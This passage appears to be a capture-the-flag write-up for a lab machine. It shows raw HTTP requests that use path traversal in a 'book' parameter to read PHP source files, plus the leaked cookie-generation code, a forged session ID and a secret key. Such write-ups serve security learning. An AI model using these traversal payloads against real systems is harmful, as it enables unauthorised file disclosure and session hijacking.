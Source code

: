 ```sh
POST /includes/bookController.php HTTP/1.1
Host: 10.10.10.228
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,/;q=0.8
Accept-Language: zh-CN,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=sj7ktf2u4g6a18doo77vvkl929
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 38
book=../portal/cookie.php&method=1
```

We get this as an response :

```sh
"<?php\r\n/**\r\n * @param string $username  Username requesting session cookie\r\n * \r\n * @return string $session_cookie Returns the generated cookie\r\n * \r\n * @devteam\r\n * Please DO NOT use default PHPSESSID; our security team says they are predictable.\r\n * CHANGE SECOND PART OF MD5 KEY EVERY WEEK\r\n * */\r\nfunction makesession($username){\r\n    $max = strlen($username) - 1;\r\n    $seed = rand(0, $max);\r\n    $key = "s4lTystR1nG".$username[$seed]."(!528./9890";\r\n    $session_cookie = $username.md5($key);\r\n\r\n    return $session_cookie;\r\n}"
```

We get paul phpsessionid 

```sh
paul47200b180ccd6835d25d034eeb6e6390
```

Obtain the secret key by sending a post request :

```sh
POST /includes/bookController.php HTTP/1.1
Host: 10.10.10.228
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=sj7ktf2u4g6a18doo77vvkl929
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 34


book=../portal/authController.php&method=1
```

We got the secret key in response :

```sh
$secret_key = '6cb9c1a2786a483ca5e44571dcc5f3bfa298593a6376ad92185c3258acd5591e';
```
